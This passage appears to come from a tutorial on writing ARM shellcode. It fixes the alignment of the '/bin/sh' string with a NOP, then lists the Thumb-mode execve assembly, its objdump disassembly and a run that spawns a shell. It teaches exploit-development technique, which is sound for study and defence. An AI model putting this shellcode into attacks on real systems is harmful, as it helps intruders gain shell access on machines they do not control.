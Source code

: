 Our string currently starts at address **0x12 == 18** which is not 4 byte aligned. To be 4 byte aligned addresses will need to end in **0x0**, **0x4**, **0x8** or **0xc**.

What we can do is add a **NOP** to push the start address of the string down 2 bytes. Then the offset from **pc** will be #8 bytes instead of #6.

```
.text
.global _start

_start:
add r1, pc, #1
bx r1

.code 16
add r0, pc, #8
eor r1, r1, r1
eor r2, r2, r2
mov r7, #11
svc #1
nop

_string:
.asciz  "/bin/sh"


$ as shell.s -o shell.o
$ objdump -d shell.o

shell.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:   e28f1001        add     r1, pc, #1
   4:   e12fff11        bx      r1
   8:   a002            add     r0, pc, #8      ; (adr r0, 14 <_string>)
   a:   4049            eors    r1, r1
   c:   4052            eors    r2, r2
   e:   270b            movs    r7, #11
  10:   df01            svc     1
  12:   46c0            nop                     ; (mov r8, r8)

00000014 <_string>:
  14:   6e69622f        .word   0x6e69622f
  18:   0068732f        .word   0x0068732f


$ ld shell.o -o shell
$ ./shell
bash -4.4#


```
